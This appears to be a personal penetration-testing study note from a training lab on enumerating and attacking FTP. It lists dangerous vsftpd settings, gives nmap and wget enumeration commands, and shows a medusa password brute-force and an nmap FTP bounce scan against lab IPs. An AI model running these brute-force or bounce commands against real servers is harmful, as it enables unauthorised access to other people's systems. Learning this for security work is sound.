 ```yaml
---
date: '2023-03-27'
before : '2023-03-25'
after : '2023-03-29'
title: 'Enumerating & Abusing FTP'
categories: ['C-SEC', 'ENG', 'Network']
summary: 'Enumerating & Abusing FTP Service'
thumbnail: '../contentImages/network/1.jpg'
---
```


# FTP

<aside>
💡 1/8 of Basic Network Services

</aside>

## General Information, Misconfiguration

- Port 21, TCP/IP protocol
- Active/Passive mode exist
- anonymous FTP Misconfiguration
- ⇒ username anonymous, password “”
- often as “vsftpd” service
- Dangerous Settings

| anonymous_enable | YES |
| --- | --- |
| anon_upload_enable | YES |
| anon_mkdir_write_enable | YES |
| no_anon_password | YES |
| write_enable | YES |

## TFTP

- Trivial File Transfer Protocol
- ⇒ does not have any authetification
- Uses UDP, not TCP

## Interacting/Enumeration

```bash
telnet 10.129.14.136 21 : accessing ftp server
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136 : get everything possible
sudo nmap -sV -p21 -sC -A 10.129.14.136 : since ftp is on port 21
```

## Attacking FTP

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp : brute forcing
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2 : ftp bounce attack
```

## FTP Bounce Attack?

- In FTP bounce attack, the attacker sends a request to an FTP server to connect to a target host and port, but specifies a different source port.
- port forwarding & ping sweeping similar

## Common Vulnerabilities

[NVD - CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

## Source

- Me!
